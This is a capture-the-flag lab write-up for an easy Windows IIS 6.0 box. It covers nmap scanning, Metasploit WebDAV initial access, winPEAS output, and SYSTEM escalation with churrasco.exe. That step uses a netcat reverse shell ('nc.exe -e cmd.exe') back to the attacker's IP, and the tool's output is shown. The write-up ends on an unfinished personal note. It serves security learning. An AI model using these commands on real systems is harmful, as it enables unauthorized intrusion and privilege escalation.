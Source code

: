 Box: Windows
Level: Easy
### Index
1. Initial Access using iis_webdav_scstoragepathfromurl - msfconsole 
2. Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)
3. Failed attempt of multiple MS Missing Patches exploits

Nmap reveals the following result
```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.14
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Tue, 06 Aug 2024 15:55:20 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Trying the iis_webdav_scstoragepathfromurl from msfconsole gets the "nt authority\network service" shell but no access to user flag.
```
Just setup the RHOST and LHOST and run the exploit. 
```

winPEAS.bat reveals the following results. 
```
PRIVILEGES INFORMATION                
----------------------                                                                                                                                  Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
**SeImpersonatePrivilege        Impersonate a client after authentication Enabled**
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

Failed attempt of [SeImpersonate Privilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/) at this stage. But there are couple of well-known Windows Privilege Escalation Technique that we can cover for this box. Each one is explain with the reference link below.

Following are the couple of links I would highly advice myself to read again and again

1. [Abusing Token Privileges For Windows Local Privilege Escalation](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/)
2. [Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) 
3. [Hot Potato – Windows Privilege Escalation](https://foxglovesecurity.com/2016/01/16/hot-potato/)
4. [Privilege Escalation (Windows) – churrasco.exe](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)
5. [Privilege Escalation (Windows) – JuicyPotato.exe](https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)

Churrasco.exe was ran with the following command when the netcat listener was on.
```
C:\tmp>churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
churrasco.exe -d "C:\tmp\nc.exe -e cmd.exe 10.10.16.5 443"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

The reverse shell was captured with elevated privileges.

For this box, we used Churrasco.exe exploit. The Churrasco.exe exploits the  [Get the notes from PDF - Third last tab of Firefox.]
	